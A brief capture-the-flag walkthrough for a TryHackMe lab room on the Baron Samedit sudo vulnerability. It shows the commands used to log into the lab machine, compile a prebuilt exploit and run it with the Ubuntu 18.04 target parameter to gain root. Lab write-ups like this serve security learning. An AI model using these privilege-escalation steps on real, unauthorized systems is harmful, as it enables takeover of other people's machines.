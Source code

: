 Walkthrough about Baron Samedit

February 7, 2022

------------------------------------------


First we are going to join the room and we will deploy the machine.

Then we are going to read the files containing the juicy information about this room. 

After, reading all of that and checking the other links, we can know use ssh service to log into the tryhackme user

```
ssh tryhackme@10.10.153.198
```

We are going to enumerate into the machine and use commands like 

```
ls 
cd Exploit
ls
```

Then after we saw some files, we remembered that we need to use the command-

```
make
```

So, that we are going to produce some files or scripts and we did see some files after using 'ls' command.

- After compiling the exploit, what is the name of the executable created (blurred in the screenshots above)?
	- `sudo-hax-me-a-sandwich`

Then after that we can use the exploit to get the root user.

```
./sudo-hax-me-a-sandwich
```

NEEDS TO SPECIFY A PARAMETER (As we know by the given information we will input '0' in the parameter since it is ubuntu and has a version of 18.04.05 - Bionic Beaver)

```
./sudo-hax-me-a-sandwich 0
```

Then after that we did get our root user or we did elevate our privilege...

```
cd /root
ls
cat flat.txt
```

Done--